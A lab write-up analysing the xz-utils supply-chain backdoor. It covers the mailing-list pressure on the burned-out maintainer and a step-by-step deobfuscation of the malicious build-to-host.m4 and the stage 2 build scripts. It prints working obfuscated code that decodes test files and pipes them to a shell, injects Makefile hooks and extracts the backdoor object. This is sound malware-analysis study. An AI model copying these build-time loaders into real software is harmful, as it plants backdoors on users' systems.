








# Final Lab Writeup

# The Goal

The goal of the threat actor was to introduce a RCE into sshd for debian x86 systems discretely through a supply chain attack of a downstream library.
Determining the Target
We can only speculate why xz-utils was targeted by this actor(s), but it does seem like some thought went into targeting this library. 

# Social Engineering

Part of this attack involved capitalizing on a single maintainers struggles in his personal life.
We can see this occur through an archived email chain discussing maintanance of xz for Java.
I have included the full email chain here in order to help preserve it. 

From Dennis Ens:

> Dear XZ Java Community
>
> Is XZ for Java still maintained? I asked a question here a week ago
> and have not heard back. When I view the git log I can see it has not
> updated in over a year. I am looking for things like multithreaded
> encoding / decoding and a few updates that Brett Okken had submited
> (but are still waiting for merge). Should I add these things to only
> my local version, or is there a plan for these things in the future?
>
> --
> Dennis Ens

[source](https://www.mail-archive.com/xz-devel@tukaani.org/msg00562.html)

From Lasse Collin (original maintainer):

> > Is XZ for Java still maintained?
> 
> Yes, by some definition at least, like if someone reports a bug it will
> get fixed. Development of new features definitely isn't very active. :-(
> 
> 
> > I asked a question here a week ago and have not heard back.
> 
> I saw. I have lots of unanswered emails at the moment and obviously
> that isn't a good thing. After the latest XZ for Java release I've
> tried focus on XZ Utils (and ignored XZ for Java), although obviously
> that hasn't worked so well either even if some progress has happened
> with XZ Utils.
> 
> > When I view the git log I can see it has not updated in over a year.
> > I am looking for things like multithreaded encoding / decoding and a
> > few updates that Brett Okken had submited (but are still waiting for
> > merge). Should I add these things to only my local version, or is
> > there a plan for these things in the future?
> 
> Brett Okken's patches I haven't reviewed so I cannot give definite
> answers about if you should include them in your local version, sorry.
> 
> The match finder optimizations are more advanced as they are somewhat
> arch-specific so it could be good to have broader testing how much they
> help on different systems (not just x86-64 but 32-bit x86, ARM64, ...)
> and if they behave well on Android too. The benefits have to be clear
> enough (and cause no problems) to make the extra code worth it.
> 
> The Delta coder patch is small and relative improvement is big, so that
> likely should get included. The Delta filter is used rarely though and
> even a slow version isn't *that* slow in the big picture (there will
> also be LZMA2 and CRC32/CRC64).
> 
> Threading would be nice in the Java version. Threaded decompression only
> recently got committed to XZ Utils repository.
> 
> Jia Tan has helped me off-list with XZ Utils and he might have a bigger
> role in the future at least with XZ Utils. It's clear that my resources
> are too limited (thus the many emails waiting for replies) so something
> has to change in the long term.
> 
> -- 
> Lasse Collin

[source](https://www.mail-archive.com/xz-devel@tukaani.org/msg00563.html)

From Brett Okken:

> I tested the match finder changes on arm64 (aws graviton) and results are
> quite positive.
> 
> 
> On Thu, May 19, 2022 at 3:41 PM Lasse Collin <lasse.col...@tukaani.org>
> wrote:
> 
> > > On 2022-05-19 Dennis Ens wrote:
> > > Is XZ for Java still maintained?
> >
> > Yes, by some definition at least, like if someone reports a bug it will
> > get fixed. Development of new features definitely isn't very active. :-(
> >
> > > I asked a question here a week ago and have not heard back.
> >
> > I saw. I have lots of unanswered emails at the moment and obviously
> > that isn't a good thing. After the latest XZ for Java release I've
> > tried focus on XZ Utils (and ignored XZ for Java), although obviously
> > that hasn't worked so well either even if some progress has happened
> > with XZ Utils.
> >
> > > When I view the git log I can see it has not updated in over a year.
> > > I am looking for things like multithreaded encoding / decoding and a
> > > few updates that Brett Okken had submited (but are still waiting for
> > > merge). Should I add these things to only my local version, or is
> > > there a plan for these things in the future?
> >
> > Brett Okken's patches I haven't reviewed so I cannot give definite
> > answers about if you should include them in your local version, sorry.
> >
> > The match finder optimizations are more advanced as they are somewhat
> > arch-specific so it could be good to have broader testing how much they
> > help on different systems (not just x86-64 but 32-bit x86, ARM64, ...)
> > and if they behave well on Android too. The benefits have to be clear
> > enough (and cause no problems) to make the extra code worth it.
> >
> > The Delta coder patch is small and relative improvement is big, so that
> > likely should get included. The Delta filter is used rarely though and
> > even a slow version isn't *that* slow in the big picture (there will
> > also be LZMA2 and CRC32/CRC64).
> >
> > Threading would be nice in the Java version. Threaded decompression only
> > recently got committed to XZ Utils repository.
> >
> > Jia Tan has helped me off-list with XZ Utils and he might have a bigger
> > role in the future at least with XZ Utils. It's clear that my resources
> > are too limited (thus the many emails waiting for replies) so something
> > has to change in the long term.
> >
> > --
> > Lasse Collin
> >
> >

[source](https://www.mail-archive.com/xz-devel@tukaani.org/msg00564.html)

From Jigar Kumar:

> Progress will not happen until there is new maintainer. XZ for C has sparse 
> commit log too. Dennis you are better off waiting until new maintainer happens 
> or fork yourself. Submitting patches here has no purpose these days. The 
> current maintainer lost interest or doesn't care to maintain anymore. It is sad 
> to see for a repo like this.

[source](https://www.mail-archive.com/xz-devel@tukaani.org/msg00566.html)

From Lasse Collin (original maintainer):

> On 2022-06-07 Jigar Kumar wrote:
> > Progress will not happen until there is new maintainer. XZ for C has
> > sparse commit log too. Dennis you are better off waiting until new
> > maintainer happens or fork yourself. Submitting patches here has no
> > purpose these days. The current maintainer lost interest or doesn't
> > care to maintain anymore. It is sad to see for a repo like this.
> 
> 
> I haven't lost interest but my ability to care has been fairly limited
> mostly due to longterm mental health issues but also due to some other
> things. Recently I've worked off-list a bit with Jia Tan on XZ Utils and
> perhaps he will have a bigger role in the future, we'll see.
> 
> It's also good to keep in mind that this is an unpaid hobby project.
> 
> Anyway, I assure you that I know far too well about the problem that
> not much progress has been made. The thought of finding new maintainers
> has existed for a long time too as the current situation is obviously
> bad and sad for the project.
> 
> A new XZ Utils stable branch should get released this year with
> threaded decoder etc. and a few alpha/beta releases before that.
> Perhaps the moment after the 5.4.0 release would be a convenient moment
> to make changes in the list of project maintainer(s).
> 
> Forks are obviously another possibility and I cannot control that. If
> those happen, I hope that file format changes are done so that no
> silly problems occur (like using the same ID for different things in
> two projects). 7-Zip supports .xz and keeping its developer Igor Pavlov
> informed about format changes (including new filters) is important too.
> 
> -- 
> Lasse Collin

[source](https://www.mail-archive.com/xz-devel@tukaani.org/msg00567.html)

From Jigar Kumar:

> > Anyway, I assure you that I know far too well about the problem that
> > not much progress has been made. The thought of finding new maintainers
> > has existed for a long time too as the current situation is obviously
> > bad and sad for the project.
> >
> > A new XZ Utils stable branch should get released this year with
> > threaded decoder etc. and a few alpha/beta releases before that.
> > Perhaps the moment after the 5.4.0 release would be a convenient moment
> > to make changes in the list of project maintainer(s).
> 
> 
> With your current rate, I very doubt to see 5.4.0 release this year. The only 
> progress since april has been small changes to test code. You ignore the many 
> patches bit rotting away on this mailing list. Right now you choke your repo. 
> Why wait until 5.4.0 to change maintainer? Why delay what your repo needs?

[source](https://www.mail-archive.com/xz-devel@tukaani.org/msg00568.html)

From Denis Ens:

> >> I haven't lost interest but my ability to care has been fairly limited
> >> mostly due to longterm mental health issues but also due to some other
> >> things. Recently I've worked off-list a bit with Jia Tan on XZ Utils and
> >> perhaps he will have a bigger role in the future, we'll see.
> >>
> >> It's also good to keep in mind that this is an unpaid hobby project.
> >>
> >> Anyway, I assure you that I know far too well about the problem that
> >> not much progress has been made. The thought of finding new maintainers
> >> has existed for a long time too as the current situation is obviously
> >> bad and sad for the project.
> 
> 
> > With your current rate, I very doubt to see 5.4.0 release this year. The only 
> > progress since april has been small changes to test code. You ignore the many 
> > patches bit rotting away on this mailing list. Right now you choke your repo. 
> > Why wait until 5.4.0 to change maintainer? Why delay what your repo needs?
> 
> I am sorry about your mental health issues, but its important to be
> aware of your own limits. I get that this is a hobby project for all
> contributors, but the community desires more. Why not pass on
> maintainership for XZ for C so you can give XZ for Java more
> attention? Or pass on XZ for Java to someone else to focus on XZ for
> C? Trying to maintain both means that neither are maintained well.
> 
> --
> Dennis Ens

[source](https://www.mail-archive.com/xz-devel@tukaani.org/msg00569.html)

From Lasse Collin (original maintainer)

> On 2022-06-21 Dennis Ens wrote:
> > Why not pass on maintainership for XZ for C so you can give XZ for
> > Java more attention? Or pass on XZ for Java to someone else to focus
> > on XZ for C? Trying to maintain both means that neither are
> > maintained well.
> 
> 
> Finding a co-maintainer or passing the projects completely to someone
> else has been in my mind a long time but it's not a trivial thing to
> do. For example, someone would need to have the skills, time, and enough
> long-term interest specifically for this. There are many other projects
> needing more maintainers too.
> 
> As I have hinted in earlier emails, Jia Tan may have a bigger role in
> the project in the future. He has been helping a lot off-list and is
> practically a co-maintainer already. :-) I know that not much has
> happened in the git repository yet but things happen in small steps. In
> any case some change in maintainership is already in progress at least
> for XZ Utils.
> 
> -- 
> Lasse Collin

[source](https://www.mail-archive.com/xz-devel@tukaani.org/msg00571.html)

We can see that the pressure put on Lasse worked, but interestingly, regardless of their intent, the others complaints do seem somewhat valid.
Development on xz-utils and xz for Java was slow and PRs with genuine features were open for months with no review or indication that it would be reviewed.
This is what allowed Jia Tan to begin to lead development of xz-utils and eventually slip the backdoor in.


# The Git History and Release

Jia Tan created two releases of xz-utils thrat were compromised. 
There is 5.6.0 and 5.6.1 which contains some additional extensibility to the backdoor. 
You will not be able to find this release in the releases tab, but it can be found by enumerating the URL. This shows Github’s auto-packaged release which is NOT what we are looking for.



Even though the source contains pieces of the code, it does not contain the ‘switch’ that causes the backdoor to activate. 
That switch is build-to-host.m4 and it is only present in Jia Tan’s release of xz-utils 5.6.0/5.6.1. 
We can find the releases containing build-to-host.m4 on the wayback machine by going to the same Github URL and navigating back to March 29th 2024. 
If you aren’t experienced in C projects, you might find this addition outside of the normal Git flow raising alarm bells. 
However, this is perfectly normal. Doing this simplifies the build process for end users and build-to-host.m4 is present in previous releases of xz-utils



Let’s compare the old build-to-host.m4 in 5.4.7 with the Jia Tan’s in 5.6.1:



I will start by extracting two important variables/patterns that we will see often:

```bash
gl_am_configmake=`grep -aErls "#{4}[[:alnum:]]{5}#{4}$" $srcdir/ 2>/dev/null`
gl_path_map='tr "\t \-_" " \t_\-"'
```

`gl_am_configmake` greps the source directory for any binary that matches 4 hashtags followed by 5 alphanumeric characters and then another 5 dashes. 
Running this command from the project directory with srcdir set to ‘./’ yields ‘tests/files/bad-3-corrupt_lzma2.xz’. 
This is one of the binary test files that Jia Tan added. 



Then there is the `gl_path_map` which just replaces tabs with spaces, spaces with tabs, underscores with dashes, and dashes with underscores. 
These variables are then used in long chains of commands to obfuscate what is happening. 

Let’s take a dive at the first of these commands which is then used in another chain:

```bash
gl_[$1]_prefix=`echo $gl_am_configmake | sed "s/.*\.//g"`
```

This command pipes ‘tests/files/bad-3-corrupt_lzma2.xz’ to sed which just strips the filename until it encounters the last ‘.’. 
This results in `gl_[$1]_prefix=xz`.

Now that we understand `gl_[$1]_prefix`, we can understand `gl_[$1]_config`:

```bash
gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
```

This starts with some edits to the bad test file, then it swaps all the spaces, tabs, etc in the binary and finally it decompresses that output and suppresses any errors. 
Looking at it deobfuscated it sure does seem scary!

```bash
gl_[$1]_config='sed "r\n" tests/files/bad-3-corrupt_lzma2.xz | tr "\t \-_" " \t_\-" | xz -d 2>/dev/null'
```

The final step of build-to-host.m4 is configuring AC_CONFIG_COMMANDS which executes at the very end of configure. 
This is what ultimately extracts and executes the stage 1 bash payload. 

```bash
AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null],[gl_config_gt="eval \$gl_[$1]_config"])

gl_config_gt="eval \$gl_[$1]_config"
eval $gl_config_gt | $SHELL 2>/dev/null
```

# Stage 1 Bash Payload

The stage 1 bash payload is the contents of `gl_[$1]_config`. I obtained the bash by running the command in a vm and echoing what ended up in the variable. This script is primarily just setting up for the second stage by decompressing the other test file that Jia Tan added. There is a series of head calls that extract pieces of tests/files/good-large_compressed.lzma. Then we do another substitution but this time of bytes. Then we perform another decompression and pipe the result, the second stage bash payload, to bash. 

[Stage 1 source](./stage1.sh)


# Stage 2 Bash Payload (part 1)

The stage 2 part 1 (configure step) bash payload formatted is available here: [bash stage 2 part 1](./stage2-configure.sh)

It will be easiest to break this down into a few discrete parts. 
The first is a way to extend the malware in the future by adding new test files with a different signature. 

```bash
vs=`grep -broaF '~!:_ W' $srcdir/tests/files/ 2>/dev/null`
    if test "x$vs" != "x" > /dev/null 2>&1;then
        f1=`echo $vs | cut -d: -f1`
        if test "x$f1" != "x" > /dev/null 2>&1;then
            start=`expr $(echo $vs | cut -d: -f2) + 7`
            ve=`grep -broaF '|_!{ -' $srcdir/tests/files/ 2>/dev/null`
            if test "x$ve" != "x" > /dev/null 2>&1;then
                f2=`echo $ve | cut -d: -f1`
                if test "x$f2" != "x" > /dev/null 2>&1;then
                    [ ! "x$f2" = "x$f1" ] && exit 0
                    [ ! -f $f1 ] && exit 0
                    end=`expr $(echo $ve | cut -d: -f2) - $start`
                    eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`
                fi
            fi
        fi
    fi
```

Then we do a bunch of checks on how the system/build is configured.
The main things it checks for is that it is x86, has IFUNC enabled, and a few other prerequisites. 
After that we begin to build some commands that look very familiar. `gl_path_map` is back, so is `bad-3-corrupt_lzma2.xz` through the $U variable. 
This logic is being injected into the src/liblzma/Makefile that Stage 1 bash -> Stage 2 bash will happen again

```bash
b="am__test = $U"
# replace ac local with this test file?
sed -i "/$j/i$b" src/liblzma/Makefile || true
d=`echo $gl_path_map | sed 's/\\\/\\\\\\\\/g'`
b="am__strip_prefix = $d"
sed -i "/$w/i$b" src/liblzma/Makefile || true
b="am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/null | \$(SHELL)"
sed -i "/$E/i$b" src/liblzma/Makefile || true
b="\$(top_srcdir)/tests/files/\$(am__test)"
s="am__test_dir=$b"
sed -i "/$Q/i$s" src/liblzma/Makefile || true
h="-Wl,--sort-section=name,-X"
if ! echo "$LDFLAGS" | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
    h=$h",-z,now"
fi
j="liblzma_la_LDFLAGS += $h"
sed -i "/$L/i$j" src/liblzma/Makefile || true
sed -i "s/$O/$C/g" libtool || true
k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"
sed -i "s/$u/$k/" src/liblzma/Makefile || true
l="LTDEPS='\$(lib_LTDEPS)'; \\\\\n\
    export top_srcdir='\$(top_srcdir)'; \\\\\n\
    export CC='\$(CC)'; \\\\\n\
    export DEFS='\$(DEFS)'; \\\\\n\
    export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\
    export INCLUDES='\$(INCLUDES)'; \\\\\n\
    export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\
    export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\
    export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\
    export CFLAGS='\$(CFLAGS)'; \\\\\n\
    export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\
    export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\
    export libdir='\$(libdir)'; \\\\\n\
    export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\
    export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\
sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";
sed -i "/$m/i$l" src/liblzma/Makefile || true
eval $zrKcHD
```

# Stage 2 Bash Payload (part 2, IFUNC)

At build time due to the substitutions in part 1 of this script stage 2 is reexecuted, but goes down a different branch and is what actually results in the backdoor finally being added.
Again, we will break it down piece by piece with the formatted source for this branch available [here](./stage2-build.sh).


It begins with another extensibility section followed by another set of checks to ensure the backdoor won't cause weird errors on user systems. 

```bash
vs=`grep -broaF 'jV!.^%' $top_srcdir/tests/files/ 2>/dev/null`
    if test "x$vs" != "x" > /dev/null 2>&1;then
        f1=`echo $vs | cut -d: -f1`
        if test "x$f1" != "x" > /dev/null 2>&1;then
            start=`expr $(echo $vs | cut -d: -f2) + 7`
            ve=`grep -broaF '%.R.1Z' $top_srcdir/tests/files/ 2>/dev/null`
            if test "x$ve" != "x" > /dev/null 2>&1;then
                f2=`echo $ve | cut -d: -f1`
                if test "x$f2" != "x" > /dev/null 2>&1;then
                    [ ! "x$f2" = "x$f1" ] && exit 0
                    [ ! -f $f1 ] && exit 0
                    end=`expr $(echo $ve | cut -d: -f2) - $start`
                    eval `cat $f1 | tail -c +${start} | head -c +${end} | tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377" | xz -F raw --lzma2 -dc`
                fi
            fi
        fi
    fi
```

Then we extract the backdoor from `good-large_compressed.lzma`, perform some sort of decryption/cipher, then perform another decompression. 
I added linebreaks to make it more legible. This results in a .o file that can mess with  function called `RSA_public_decrypt`. 
This will be important later. This was determined from the work in [this writeup](https://research.swtch.com/xz-script).

```bash
`xz -dc $top_srcdir/tests/files/$p | \
eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | \
LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<8192;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | \
xz -dc --single-stream | \
((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
```

